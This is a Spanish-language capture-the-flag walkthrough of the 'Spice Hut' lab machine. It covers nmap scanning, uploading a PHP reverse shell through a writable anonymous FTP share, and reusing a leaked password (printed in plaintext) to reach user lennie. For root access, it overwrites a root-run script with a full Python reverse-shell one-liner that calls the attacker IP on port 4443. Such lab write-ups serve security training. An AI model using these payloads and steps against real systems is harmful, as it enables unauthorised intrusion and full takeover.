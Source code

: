 # Descripción

Somos Spice Hut, una nueva empresa emergente que acaba de triunfar. Nosotros
ofrecemos una variedad de especias y sándwiches club (por si te entra hambre),
pero no es por eso por lo que estás aquí. A decir verdad, no estamos seguros de si nuestros
desarrolladores saben lo que están haciendo y nuestras preocupaciones de seguridad están 
en aumento. Le pedimos que realice una prueba de penetración a fondo y tratar de 
poseer la raíz. Buena suerte.

# Reconocimiento

`nmap --min-rate 4000 -p- --open -sCV -v 10.10.115.93 -oN tcp_scan.txt`

 ![[Pasted image 20240412072219.png]]
 
Podemos ver el servicio FTP, con el usuario Anonymous habilitado con permisos de escritura dentro de la carpeta ftp, el servicio ssh, y un servidor apache corriendo en el puerto 80

Intentaremos ver que hay dentro del servidor ftp, y encontramos 2 archivos, y una carpeta llamada ftp, descargaremos los archivos notice.txt, y important.jpg para ver su contenido.

![[Pasted image 20240412082644.png]]
![[Pasted image 20240412082725.png]]

Pensando que esta corriendo un servidor web, podríamos ver si estos subdirectorios existen a nivel web, y si fuera el caso podríamos subir una reverse shell, mediante la carpeta ftp, he intentado directamente sobre la raíz y no he podido así que he hecho fuzzing, y obtuve la carpeta files donde se almacena lo que tiene el servidor ftp

![[Pasted image 20240412073926.png]]

![[Pasted image 20240412073942.png]]

Podemos ver que es el mismo archivo que descargamos en nuestra maquina dentro del ftp.

# Acceso inicial

Crearemos una revshell en php, en mi caso he usado revshells[].com, pero cualquier rev php, funcionaria, le damos permisos, y lo subimos al ftp, para ver si poniendolos a la escucha y ejecutando el archivo logramos una shell inversa 

![[Pasted image 20240412074604.png]]
![[Pasted image 20240412074623.png]]

Podemos listar dentro de la raiz /files/ftp/revshell.php nuestra shell inversa, poniendo netcat a la escucha, y efectivamente conseguimos una shell para el usuario www-data 

![[Pasted image 20240412074903.png]]

Podemos enumerar un usuario llamado lennie, listemos los permisos SUID que tiene el usuario www-data, para poder escalar privilegios, intentamos ver, pero no encontramos nada en las conexiones a la escucha o archivos en los que tengamos permisos
![[Pasted image 20240412083227.png]]
Dentro de la carpeta raíz encontramos una carpeta llamada incidentes con la contraseña posible de  captadas de una comunicación de ncap

![[1_VdH_oe1-qVobhaIbvnIQbQ.webp]]

usuario: www-data
contraseña: c4ntg3t3n0ughsp1c3

Sin poder escalar privilegios verificaremos si se ha reutilizar contraseñas, he intentado fuerza bruta cntra lennie pero no he podido, pero utilizando la contraseña c4ntg3t3n0ughsp1c3, tenemos acceso a lennie

![[Pasted image 20240412083730.png]]
![[Pasted image 20240412084053.png]]

# Escalada de privilegios

Dentro de la carpeta de la primera bandera, podemos encontrar dos carpetas, documents y scripts, dentro de scripts podemos ver un script en bash, que fue creado por el root, y tenemos  ejecución en la ruta /etc/print.sh

![[Pasted image 20240412084338.png]]

cat > /etc/print.sh << EOF 
#!/bin/bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.255.131",4443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
EOF

![[Pasted image 20240412085714.png]]
![[Pasted image 20240412085733.png]]

rescribimos el script con un revshell en python apuntando a nuestro puerto 4443 y tenemos el usuario root

![[Pasted image 20240412085830.png]]
